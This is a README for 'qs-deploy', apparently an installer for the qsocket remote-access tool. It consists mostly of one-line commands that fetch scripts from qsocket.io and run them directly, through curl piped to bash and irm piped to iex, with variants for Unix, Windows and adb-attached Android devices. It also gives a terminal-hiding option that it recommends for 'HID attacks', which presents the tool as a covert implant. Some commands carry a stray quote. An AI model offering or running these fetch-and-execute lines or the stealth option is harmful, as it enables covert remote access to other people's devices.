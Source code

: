 # qs-deploy

<p align="center">
  <img src="https://github.com/qsocket/qs-deploy/raw/master/.github/img/banner.png">
  <br>
  <a href="https://github.com/qsocket/qs-deploy/actions/workflows/main.yml">
    <img src="https://github.com/qsocket/qs-netcat/actions/workflows/main.yml/badge.svg">
  </a>
  <a href="https://github.com/qsocket/qs-deploy/issues">
    <img src="https://img.shields.io/github/issues/qsocket/qs-deploy?style=flat-square&color=red">
  </a>
  <a href="https://raw.githubusercontent.com/qsocket/qs-deploy/master/LICENSE">
    <img src="https://img.shields.io/github/license/qsocket/qs-deploy.svg?style=flat-square">
  </a>
</p> 

#### For Unix-like systems `(almost any OS with a bash)`
```bash
curl -fsSL qsocket.io/0 | bash"
```

#### For Windows
```powershell
irm qsocket.io/1 | iex
```

#### For Android `(no-root devices)`
1. Enable USB debugging on the android devive.
2. Attach the android device to a linux host with adb installed.
3. Run the following command on the linux host... 
```bash
curl -fsSL qsocket.io/2 | bash"
```

# Deploy Examples

#### Deploy with a spesific secret value

```bash
S="MySecret" curl -fsSL qsocket.io/0 | bash # For *nix
```
```powershell
$env:S="MySecret"; irm qsocket.io/1 | iex  # For Windows
```
#### Hide Terminal During Deploymeny
This option can be usefull during HID attacks.

```bash
HIDE=1 curl -fsSL qsocket.io/0 | bash # For \*nix
```
```powershell
$env:HIDE=1; irm qsocket.io/1 | iex # For Windows
```
